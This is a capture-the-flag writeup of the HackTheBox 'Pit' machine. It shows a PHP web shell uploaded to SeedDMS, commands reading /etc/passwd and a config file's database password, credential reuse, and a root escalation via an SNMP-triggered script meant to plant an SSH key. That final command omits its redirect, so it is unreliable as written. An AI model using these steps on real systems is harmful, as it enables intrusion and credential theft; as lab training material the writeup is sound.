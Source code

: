 ```yaml
---
title: "Hackthebox Pit Writeup"
date: "2022/02/20"
author: "robiot"
tags: ["htb", "pit", "ctf"]
---
```


Hello everybody. Here is a writeup of Pit that I made a while ago which I decided to upload here.

## Adding to /etc/hosts

I always like to add the ip to /etc/hosts, because then I don't have to remember the ip anymore.

To add the ip to /etc/hosts: 
Where BOXIP is the box ip
```sh
echo "BOXIP pit.htb" >> /etc/hosts
```

## Information Gathering

First lets check what ports are open with masscan. This command will check all open ports on both udp and tcp on the tun0 virtual adapter. Only downside is that it takes much time.

```
masscan pit.htb -p1-65535,U:1-65535 --rate=500 -e tun0
```


Then I ran a script-scan on the port from masscan
```
nmap -sCV -p 22,80,161,9090 -T4 pit.htb
```

Ports:
```
ports:
22 OpenSSH 8.0 protocol 2.0?
80 http nginx 1.14.1
161 filtered snmp
9090 cockpit? zeus-admin? ssl-cert dms-pit.htb
```

At port 80 there is an unconfigured nginx webserver.
![Nginx image](nginx.png)

At port 9090 there is some kind of CentOs login.
![Centos](centos.png)

Nmap also showed that 9090 had a certificate with the name (dms-pit.htb) which I also added to my /etc/hosts.

http://dms-pit.htb returned a forbidden status code.

![403](nginx403.png)

Since snmp was running on port 161, I tried taking it on a walk with snmpwalk ;)

```
snmpwalk -v2c -c public pit.htb nsExtendObjects
```

Which printed some data:
```
OS:Centos Linux release 8.3.2011

Labeling  MLS/      MLS/

SELinux User    Prefix    MCS Level  MCS Range                      SELinux Roles

guest_u        user      s0        s0                            guest_r
root            user      s0        s0-s0:c0.c1023                staff_r sysadm_r system_r unconfined_r
staff_u        user      s0        s0-s0:c0.c1023                staff_r sysadm_r unconfined_r
sysadm_u        user      s0        s0-s0:c0.c1023                sysadm_r
system_u        user      s0        s0-s0:c0.c1023                system_r unconfined_r
unconfined_u    user      s0        s0-s0:c0.c1023                system_r unconfined_r
user_u          user      s0        s0                            user_r
xguest_u        user      s0        s0                            xguest_r
login

Login Name          SELinux User        MLS/MCS Range        Service

__default__          unconfined_u        s0-s0:c0.c1023      *
michelle            user_u              s0                  *
root                unconfined_u        s0-s0:c0.c1023      *
```

Here we see a user named michelle and its that it's running Centos 8.3.2011.

To get some more information I ran this command:
```
snmpwalk -c public -v 2c pit.htb .1 > file.txt
```

After searching for a while, I saw a /var/www/html directory with seeddms (A free document management system):
```
.1.3.6.1.4.1.2021.9.1.2.2 = STRING: /var/www/html/seeddms51x/seeddms
.1.3.6.1.4.1.2021.9.1.3.1 = STRING: /dev/mapper/cl-root
.1.3.6.1.4.1.2021.9.1.3.2 = STRING: /dev/mapper/cl-seeddms
```

/var/www/html/x is often the root of websites, so I tried visiting http://pit.htb/seeddms51x/seeddms but got a 404.

http://dms-pit.htb/seeddms51x/seeddms didn't return a 404, here is a login panel.

![Seedms login](seedms.png)

Here is a login page there we can input a User ID, a password and a language. I put michelle as User ID (since I found a user called it in the snmpwalk) then tried some basic passwords.
After a while I tried "michelle" as a password and it worked and I'm in :)

By digging arround on the website for a bit I found this from `/Docs/Users`.\
Here it seems like I can upload files.

http://dms-pit.htb/seeddms51x/seeddms/out/out.ViewFolder.php?folderid=8&showtree=1

I created a file named 1.php with this content (from [exploit-db](https://www.exploit-db.com/exploits/47022)) and uploaded it with the "Add Document button"
```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

```yml
Name: 1.php
Preset expiration: Does not expire
Local file: (the php file created)
Everything else blank
```

Files in SeedDms are stored in http://dms-pit.htb/seeddms51x/data/1048576/documentid/filename.someextension

The documentId can be found by rightclicking the download button of the uploaded document `?documentid=31` 

Now the file is uploaded and commands can be executed with the cmd parameter http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=cat+/etc/passwd

![](etc-passwd.png)

I tried to get a reverse shell but it didn't work so I navigated around the system and found `../../../conf/` which contains a `settings.xml` file.

```
http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=cat ../../../conf/settings.xml
```

The webpage will show a white page. This is because the browser is trying to parse the xml as html. To view the xml go into the `View Page Source` tab.

```xml
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="********" doNotCheckVersion="false">
```

Here is a databse user and a database password.

I could not really access the database from sql cli since its localhost only. I also tried to ssh into michelle with the db password, but no success.
```
ssh michelle@pit.htb
```

Then i decided to try the dbpassword on the pit.htb:9090 login page with `michelle` as username and the db password as password. It worked.

Here is some kinda admin dashboard. On the left there is a Terminal button. I pressed it and now I got user.

```
[michelle@pit ~]$ ls
user.txt
```

## Root
I started by checking the output of snmp again `snmpwalk -c public -v 2c boxip .1 > file.txt` 

I digged arround for some time and found something interesting. `NET-SNMP-EXTEND-MIB`, which is a extension that allows running scripts triggered by snmp. 

```
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
```

I checked who could execute the `/usr/bin/monitor` in the michelle terminal. And turns out its only the owner, which is root.
```
[michelle@pit /]$ ls -l /usr/bin/monitor
	-rwxr--r-- 1 root root 88 Apr 18 2020 /usr/bin/monitor
```

This is the content of `/usr/bin/monitor`.
It is basically a script that executes all .sh scripts starting with `check` inside `/usr/local/monitoring`
```bash
for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```

I ran "ls -ld /usr/local/monitoring" 
```
drwxrwx---+ 2 root root 122 May 14 14:40 /usr/local/monitoring
```
There is a `+`at the end of the permissions, which means michelle has additional ACLs set [(See here)](https://unix.stackexchange.com/a/92072).

I ran `getfacl /usr/local/monitoring/` to get more about it, and saw that michelle has read and execute permissions.
```
[michelle@pit /]$ getfacl /usr/local/monitoring
getfacl: Removing leading '/' from absolute path names
# file: usr/local/monitoring
# owner: root
# group: root
user::rwx
user:michelle:-wx
group::rwx mask::rwx
other::---
```

### Shell
This script will write my public ssh key to `/root/.ssh/authorized_keys` and will allow me to ssh into root. 
```
[michelle@pit monitoring]$ echo 'echo "your-public-ssh-key username@hostname"' > check.sh
```

To trigger the script
```
snmpwalk -m +MY-MIB -v2c -c public pit.htb nsExtendObjects
```

```
ssh root@pit.htb

[root@pit ~]# ls
root.txt
```


